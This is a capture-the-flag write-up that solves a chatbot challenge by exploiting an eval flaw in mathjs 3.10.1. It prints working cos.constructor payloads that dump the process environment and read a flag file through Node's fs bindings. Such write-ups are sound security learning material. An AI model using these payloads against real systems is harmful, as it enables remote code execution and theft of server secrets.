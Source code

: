 # Where's the package - Points: ???

### Description:

<missing since site is down>

### Hints

<missing since site is down>

### Solution

*Note: I'll add screenshots once the site is back up*

The hint mentions sending `help` to the chatbox. Sending this message, the server responds with `'I'm your new best friend. If you want to know more about me just ask "tell me about yourself"`. Sending  `tell me about yourself` responds with a copy of index.js. Looking at the code, see the tell me about options are `["yourself", "index.js", "package.json"]`. You can then do `tell me about package.json` and get this file. Looking at package.json, you see the versions of the various installed packages (also hinted at by the challenge name). Quickly googling these packages, you will come across an issue with `"mathjs": "3.10.1"`. I found a pretty good tutorial on this issue [here](https://capacitorset.github.io/mathjs/).

Essentially, there is an issue with mathjs's eval. Using `cos.constructor()`, you can execute code. I first did `what is cos.constructor("return process.env")()` and got the response:

```
LANG: "en_US.UTF-8"
OLDPWD: "/"
PATH: "/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
PWD: "/problems/where-s-the-package-_1_4cdb4544defb85e124b23177204f6aad"
REMOTE_HOST: "173.67.15.54"
SHLVL: "1"
_: "./start.sh"
_SYSTEMCTL_SKIP_REDIRECT: "true"
```

Now I know the PWD of the challenge. You can now read the flag with `what is cos.constructor("buffer = Buffer.allocUnsafe(64); process.binding('fs').read(process.binding('fs').open('/problems/where-s-the-package-_1_4cdb4544defb85e124b23177204f6aad/flag', 0, 0600), buffer, 0, 64); return buffer.toString()")()
`

### Flag: `ACI{233c0f165c26a20fb119c8ccc32}`
